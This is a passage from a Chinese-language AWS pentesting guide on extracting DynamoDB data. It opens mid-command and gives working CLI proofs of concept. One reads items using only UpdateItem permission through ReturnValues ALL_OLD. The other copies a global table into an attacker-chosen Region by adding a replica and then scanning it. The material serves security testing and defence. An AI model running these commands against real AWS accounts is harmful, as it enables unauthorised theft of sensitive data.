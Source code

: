 ```bash
--shard-iterator <shard_iterator> \
--region <region>
```
**潜在影响**: 实时监控并导致 DynamoDB 表更改的数据 leak。

### 通过 `dynamodb:UpdateItem` 和 `ReturnValues=ALL_OLD` 读取项

攻击者如果在某表上仅拥有 `dynamodb:UpdateItem` 权限，可以在没有常规读取权限（`GetItem`/`Query`/`Scan`）的情况下，通过执行一次无害的更新并请求 `--return-values ALL_OLD` 来读取项。DynamoDB 会在响应的 `Attributes` 字段中返回该项更新前的完整镜像（这不会消耗 RCUs）。

- 最低权限：在目标表/键上具有 `dynamodb:UpdateItem`。
- 前提条件：你必须知道该项的主键。

示例（添加一个无害的属性并在响应中 exfiltrates 先前的 item）：
```bash
aws dynamodb update-item \
--table-name <TargetTable> \
--key '{"<PKName>":{"S":"<PKValue>"}}' \
--update-expression 'SET #m = :v' \
--expression-attribute-names '{"#m":"exfil_marker"}' \
--expression-attribute-values '{":v":{"S":"1"}}' \
--return-values ALL_OLD \
--region <region>
```
The CLI 响应将包含一个 `Attributes` 块，里面包含完整的先前项（所有属性），实际上从仅有写权限中提供了一个读取原语。

**潜在影响：** 在只有写权限的情况下读取表中的任意项；当主键已知时，可导致敏感数据外泄。


### `dynamodb:UpdateTable (replica-updates)` | `dynamodb:CreateTableReplica`

通过向 DynamoDB Global Table（版本 2019.11.21）添加新的 replica Region，实现隐蔽的外泄。如果某个主体可以添加区域副本，整个表将被复制到攻击者选定的 Region，攻击者可以从该 Region 读取所有项。

{{#tabs }}
{{#tab name="PoC (default DynamoDB-managed KMS)" }}
```bash
# Add a new replica Region (from primary Region)
aws dynamodb update-table \
--table-name <TableName> \
--replica-updates '[{"Create": {"RegionName": "<replica-region>"}}]' \
--region <primary-region>

# Wait until the replica table becomes ACTIVE in the replica Region
aws dynamodb describe-table --table-name <TableName> --region <replica-region> --query 'Table.TableStatus'

# Exfiltrate by reading from the replica Region
aws dynamodb scan --table-name <TableName> --region <replica-region>
```
{{#endtab }}
{{#tab name="PoC (customer-managed KMS)" }}
```bash
# Specify the CMK to use in the replica Region
aws dynamodb update-table \
--table-name <TableName> \
--replica-updates '[{"Create": {"RegionName": "<replica-region>", "KMSMasterKeyId": "arn:aws:kms:<replica-region>:<account-id>:key/<cmk-id>"}}]' \
--region <primary-region>
```
{{#endtab }}
{{#endtabs }}
